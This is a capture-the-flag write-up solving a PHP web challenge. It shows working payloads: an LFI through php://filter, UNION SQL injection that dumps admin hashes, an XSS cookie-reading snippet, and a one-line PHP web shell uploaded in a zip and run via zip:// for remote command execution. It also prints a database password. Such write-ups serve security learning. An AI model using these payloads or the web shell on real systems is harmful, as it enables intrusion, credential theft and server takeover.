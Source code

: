 
## MMA 1st CTF 2015 - Mortal Magi Agents (Web 300)
##### 05/09 - 07/09/2015 (48hr)
___
### Description: 

http://magiagents.chal.mmactf.link/
___
### Solution

We start by looking at the urls:
```
  http://magiagents.chal.mmactf.link/?page=home
  http://magiagents.chal.mmactf.link/?page=news
```
Probably an LFI. Let's try:
```
  http://magiagents.chal.mmactf.link/?page=settings
```

Page returns the settings page which is available after login. NULL byte is not allowed, here
but LFI is possible as we shouldn't have seen settings page. Let's try php wrappers:
```
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=home
```
Bingo! A base64 string is returned with the page:
```
PGRpdiBjbGFzcz0icGFnZS1oZWFkZXIiPjxoMT5Ib21lPC9oMT48L2Rpdj4KCjxpbWcgc3JjPSJtYWdpLmpwZyI+Cgo8P3
BocAppZiAoaXNzZXQoJF9TRVNTSU9OWyJhZG1pbiJdKSAmJiAkX1NFU1NJT05bImFkbWluIl0pIHsKICAgIGVjaG8gZmls
ZV9nZXRfY29udGVudHMoIi4uL2ZsYWciKTsKfQo=
```
We decode it and we get the page source:
```html
  <div class="page-header"><h1>Home</h1></div>

  <img src="magi.jpg">

  <?php
  if (isset($_SESSION["admin"]) && $_SESSION["admin"]) {
      echo file_get_contents("../flag");
  }
```
We can do the same for the rest files (the code for each file is in separete file):
```
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=settings
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=news
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=logout
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=index
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=login
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=logout
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=db
```
Now we have all the source. Is it an SQLi? We can't do sqli in signup as it has a strong filter,
but we can do it on signin:
```php
    $user = $_POST['user'];
    $password = $_POST["password"];    
    $db = connect_db();

    $results = $db->query("SELECT * FROM users WHERE (name = '$user' AND not banned)");
```

NOTE: if we open db.php we'll see this line: 
      mysqli_connect('localhost', 'magiagents', '6fc1401279387c561b891c2672b1b418', 'magiagents');
      However  mysql server is not accessible from outside (obviously!).

Let's start our SQLi. First we register a user fooo2:fooo2. Then we login as:
```
http://magiagents.chal.mmactf.link/login.php
  user=' or name='fooo2
  &password=fooo2
  &signin=
```
And we logged in as fooo2. Let's see how many columns exist in users table:
```
  user=fooo2' AND not banned) UNION ALL SELECT 0x61,0x62,0x63
                              UNION ALL (SELECT * FROM users WHERE name='
  &password=fooo2
```
The above query returns a blank page (as we cause an internal MySQL error), but this query:
```
  user=fooo2' AND not banned) UNION ALL SELECT 0x61,0x62,0x63,0x64 
                              UNION ALL (SELECT * FROM users WHERE name='
  &password=fooo2
```

Can login as fooo2. Nice! We know that there are 4 columns. We can identify columns names just
by looking source code: name, hashed_password, avator, banned.

Let's see what's going on the admins table. We assume that there are <=4 columns there.
```
  user=fooo2' AND not banned) UNION ALL SELECT (SELECT * FROM admins LIMIT 1)
                                UNION ALL (SELECT * FROM users WHERE name='
  &password=fooo2
```
This query gives an error, but this query:
```
  user=fooo2' AND not banned) UNION ALL SELECT (SELECT * FROM admins LIMIT 1), 0x62, 0x63, 0x64
                                UNION ALL (SELECT * FROM users WHERE name='
  &password=fooo2
```
Doesn't. Thus there's a single column in admins table. Let's make a guess for the name:
```
  user=fooo2' AND not banned) UNION ALL SELECT (SELECT name FROM admins LIMIT 1), 0x62, 0x63, 0x64
                                UNION ALL (SELECT * FROM users WHERE name='
  &password=fooo2
```

As long as we don't get a blank page back, the only column in admins table is called name.

Then we try to login as admin:admin
```
  user=') UNION ALL SELECT 'admin', 'd033e22ae348aeb5660fc2140aec35850c4da997',0x63,0x64 
          UNION ALL (SELECT * FROM users WHERE name='
  &password=admin
```
We're logged in as admin but we can't get the flag:
```php
        $results = $db->query("SELECT * FROM admins");
        
        while ($row = $results->fetchArray()) {
            if ($row["name"] === $user) {
                $_SESSION["admin"] = true;
                break;
            }
        }
```

The reason is that $user will contain the whole SQLi string and not the username "admin".
However the above example returns an image with filename "c" (0x63). Now we have a path
to extract data from the DB. By replacing the 0x63 in the previous query with a SELECT
statement we get some useful data:
```
(SELECT group_concat(name) FROM admins)   ---> admin, asdf, m
(SELECT group_concat(name,hashed_password) FROM users WHERE name='admin' OR name='asdf' OR name='m')
--->  ffffffffffffffffffffffffffffffffffffffff, 
      5feba136aea0208ee7f522eb2de1b315eb828512,
      6b0d31c0d563223024da45691584643ac78c96e8
```
We can dump all usernames and hashes but this is not the point. From these hashes we can crack
only the last one which is 'm'. Then we login as m:m and we get the flag: 
**  MMA{5ded4df85bb8785f9cff08268703278c4e18e3fd} **

___
I surprised from having a so simple username/password, and I contact the authors. They told me
that some else inserted that value, so this wasn't the correct way to solve it. Then I went back
and I was trying to solve it with the correct way. I looked for an injection in UPDATE, in order
to insert or change a row in admins table. This however wasn't possible as we have to craft an
injection statement that will be valid both in SELECT and in UPDATE. THe problem was the different
syntax and the extra "(" appeared in SELECT. We need a different way.

An XSS is possible but useless:
```
  user=' or /*<script>alert('xss:' + document.cookie)</script>*/ name='fooo2
  &password=fooo2
```

There's one thing that we miss all this time. The image upload. If we could upload a php file
then we could solve the challenge. The image checks are weak, so we can upload a php file. 
However this file won't have the .php extension. Let's go back to our LFI and see if we 
can do something else. From all the available wrappers, zlib is the most interesting.
zlib wrapper allow us to uncompress and execute a php file. This means that file doesn't
have to have the php extension. As zlib is for php 4 only, we'll use zip.

So, we login as fooo2:fooo2 and we upload a zip file, containing a foo.php file:
```
  <?php echo 'EXEC CODE</br>'; system( $_GET['cmd']) ?>
```
Then we upload the zip file which is stored at: avators/fooo22d555a4891d6ebc52e722f991855b25356b68333
zip wrapper usage is (http://php.net/manual/en/wrappers.compression.php): 
  zip://archive.zip#dir/file.txt

So we go back to our LFI and we try to access our file:
```
  http://magiagents.chal.mmactf.link/index.php?page=zip://avators/fooo22d555a4891d6ebc52e722f991855b25356b68333%23foo&cmd=ls
```
Note that the file name is foo and not foo.php because index.php appends the .php extension:
```php
  <?php
    include("$page.php");
  ?>
```
We do an ls and we can access directory files:
  avators css db.php fonts home.php index.php js login.php logout.php magi.jpg news.php settings.php

Finally we get tha flag:
  http://magiagents.chal.mmactf.link/index.php?page=zip://avators/fooo22d555a4891d6ebc52e722f991855b25356b68333%23foo&cmd=cat ../flag

**MMA{5ded4df85bb8785f9cff08268703278c4e18e3fd}**
___